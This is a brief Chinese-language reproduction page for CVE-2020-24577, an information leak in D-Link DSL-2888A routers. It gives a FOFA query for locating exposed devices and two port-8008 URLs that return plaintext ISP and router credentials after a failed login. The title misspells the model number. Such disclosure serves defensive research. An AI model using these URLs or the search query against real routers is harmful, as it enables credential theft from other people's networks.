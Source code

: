 # D-Link DSL-28881A 信息泄露 CVE-2020-24577

## 漏洞描述

通过物理连接或无线访问建立与网络的连接后，恶意用户可以通过直接浏览以下URL来获取纯文本格式的Internet提供商连接用户名和密码，以及无线路由器的纯文本格式的用户名和密码

## 漏洞影响

<a-checkbox checked>D-Link DSL-2888A</a-checkbox></br>

## FOFA

<a-checkbox checked>body="DSL-2888A"</a-checkbox></br>

## 漏洞复现

登录页面输入任意密码建立连接



![img](../../../.vuepress/public/img/link-1-20220314114948366.png)



跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

访问下列两个连接

```
http://xxx.xxx.xxx.xxx:8008/tmp/cfg/lib_cfg_cfgcmd
http://xxx.xxx.xxx.xxx:8008/tmp/.nvram
```



![img](../../../.vuepress/public/img/link-3.png)

